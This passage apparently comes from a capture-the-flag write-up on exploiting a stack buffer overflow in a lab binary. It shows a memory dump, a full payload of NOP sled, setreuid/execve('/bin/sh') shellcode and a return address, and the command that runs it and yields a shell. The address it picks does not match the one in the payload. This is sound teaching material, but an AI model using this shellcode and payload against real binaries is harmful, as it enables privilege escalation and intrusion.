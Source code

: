 ```sh
0x7fffffffe988: 0x41414141      0x00004141      0xffffea88      0x00007fff
0x7fffffffe998: 0x00000000      0x00000002      0x004005e0      0x00000000
0x7fffffffe9a8: 0xf7a4302a      0x00007fff      0x00000000      0x00000000
0x7fffffffe9b8: 0xffffea88      0x00007fff      0x00040000      0x00000002
0x7fffffffe9c8: 0x004005ac      0x00000000      0x00000000      0x00000000
0x7fffffffe9d8: 0x794daa23      0x97320a39      0x00400450      0x00000000
0x7fffffffe9e8: 0xffffea80      0x00007fff      0x00000000      0x00000000
0x7fffffffe9f8: 0x00000000      0x00000000      0xa1edaa23      0x68cdf546
0x7fffffffea08: 0x2d49aa23      0x68cde5f1      0x00000000      0x00000000
0x7fffffffea18: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffea28: 0xffffeaa0      0x00007fff      0xf7ffe130      0x00007fff
0x7fffffffea38: 0xf7de7656      0x00007fff      0x00000000      0x00000000
0x7fffffffea48: 0x00000000      0x00000000      0x00000000      0x00000000
```

Pick any address that's full of NOPs (\x90) e.g. `0x7f ff ff ff e8 f8`

in little edian format, our return address example would look like this `\xf8\xe8\xff\xff\xff\x7f`

### Final Payload

Let's recap, we now have:

1. the offset (169)
2. the pad (15)
3. the NOP sled (94)
4. our shellcode (54)
5. the return address that hits the start of our shellcode (6)

Payload = `'\x90'*94 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x42'*15 + '\x18\xe9\xff\xff\xff\x7f'`

### Capture the Flag

We take the Payload from above, and run it on the CLI against the `bufferoverflow-2` application like so:

```sh
[user1@ip-10-10-50-188 overflow-4]$  ./buffer-overflow-2 $(python -c "print '\x90'*94 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x42'*15 + '\x18\xe9\xff\xff\xff\x7f'")
new word is doggo1fjqXHj;XH1I//bin/shAPHRWHj<XH1BBBBBBBBBBBB
sh-4.2$ id
uid=1003(user3) gid=1001(user1) groups=1001(user1)
sh-4.2$ cat secret.txt
wowanothertime!!
```

Success!

:::danger beware

shellcode for `setreuid` apparently doesn't work inside gdb/r2, you must deliver the payload directly to the binary, outside of a debugger.

